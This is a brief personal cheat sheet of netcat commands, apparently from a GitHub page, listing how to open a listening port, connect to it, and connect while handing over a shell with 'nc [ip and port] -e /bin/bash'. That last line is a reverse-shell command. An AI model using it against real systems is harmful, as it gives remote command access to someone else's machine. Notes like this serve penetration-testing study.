 
nc -lvp [port] -> open a listeing port on my machin 
nc [ip and port] -e /bin/bash -> connecting to a listeing port with a shell

nc -nv [ip and port] -> Connection
